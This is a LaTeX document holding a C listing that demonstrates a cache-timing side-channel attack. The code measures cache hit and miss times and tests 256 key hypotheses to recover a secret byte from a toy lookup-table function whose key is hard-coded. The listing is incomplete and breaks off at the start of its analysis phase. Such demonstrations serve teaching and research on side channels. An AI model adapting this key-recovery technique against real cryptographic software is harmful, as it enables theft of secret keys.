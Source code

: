 \documentclass[11pt,a4paper]{article}
\theoremstyle{definition}
\begin{document}
\begin{lstlisting}[caption={Attack Implementation with Results}]
int main() {
    uint8_t secret_key = 0x2B;  // Unknown to attacker
    printf("=== Cache-Timing Attack on Lookup Table ===\n\n");
    
    // Phase 1: Cache characterization
    printf("Phase 1: Cache Characterization\n");
    flush_cache_line(&lookup_table[0]);
    uint64_t miss_time = measure_access_time(&lookup_table[0]);
    lookup_table[0];  // Load into cache
    uint64_t hit_time = measure_access_time(&lookup_table[0]);
    
    printf("Cache miss time: %lu cycles\n", miss_time);
    printf("Cache hit time:  %lu cycles\n", hit_time);
    printf("Timing threshold: %lu cycles\n\n", (miss_time + hit_time) / 2);
    
    // Phase 2: Statistical data collection
    printf("Phase 2: Data Collection (1000 measurements per key hypothesis)\n");
    
    uint64_t avg_timings[256] = {0};
    int num_measurements = 1000;
    
    for (int key_hypothesis = 0; key_hypothesis < 256; key_hypothesis++) {
        uint64_t total_timing = 0;
        
        for (int measurement = 0; measurement < num_measurements; measurement++) {
            uint8_t plaintext = rand() % 256;
            uint8_t predicted_index = plaintext ^ key_hypothesis;
            
            // Flush the predicted cache line
            flush_cache_line(&lookup_table[predicted_index]);
            
            // Execute target function (with real secret)
            uint32_t result = process_secret_byte(secret_key, plaintext);
            
            // Measure access time to predicted location
            uint64_t timing = measure_access_time(&lookup_table[predicted_index]);
            total_timing += timing;
        }
        
        avg_timings[key_hypothesis] = total_timing / num_measurements;
        
        if (key_hypothesis % 64 == 0) {
            printf("Progress: %d/256 key hypotheses tested\n", key_hypothesis);
        }
    }
    
    // Phase 3: Statistical analysis
    printf("\nPhase 3: Statistical Analysis\n");
    uint64_t min_timing = UINT64_MAX;
    uint8_t best_key = 0;
    

\end{lstlisting}
\end{document}
